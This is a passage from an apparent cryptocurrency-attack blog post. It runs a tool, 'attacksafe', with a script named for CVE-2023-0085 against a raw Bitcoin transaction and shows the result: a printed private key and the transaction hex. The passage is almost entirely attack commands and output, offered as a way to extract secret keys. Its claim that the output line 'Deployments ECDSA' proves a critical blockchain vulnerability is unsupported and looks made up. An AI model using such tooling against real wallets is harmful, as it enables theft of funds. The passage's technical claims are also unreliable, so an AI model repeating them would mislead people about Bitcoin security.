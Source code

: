 
<p><a href="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/tree/main#lets-launchdeserialization_error_vulnerability_cve-2023-0085sage-using-the-software-attacksafeultra"></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>!./attacksafe deserialization_error_vulnerability_cve-2023-0085.sage -open RawTX.txt -save SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/blob/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-33-1024x435.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/raw/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-33-1024x435.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures"/></a></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>We launched this attack from&nbsp;<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>and the result was saved to a file<code><strong>SecretKey.txt</strong></code></p>



<p>Now to see the successful result, open the file&nbsp;<code><strong>SecretKey.txt</strong></code></p>



<pre class="wp-block-code"><code><strong>cat SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/blob/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-34-1024x223.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/raw/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-34-1024x223.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures"/></a></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><a href="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/blob/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-35-1024x292.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Deserialize-Signature-Vulnerability-in-Bitcoin-Network/raw/main/Deserialize%20Signature%20Vulnerability%20in%20Bitcoin%20Network%20-%20CRYPTO%20DEEP%20TECH_files/image-35-1024x292.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures"/></a></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code><strong>Deployments ECDSA:

SecretKey = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c

RawTX = 01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000</strong></code></pre>



<p>We see an inscription&nbsp;<code>"Deployments ECDSA"</code>that means a critical vulnerability of the Bitcoin blockchain transaction</p>
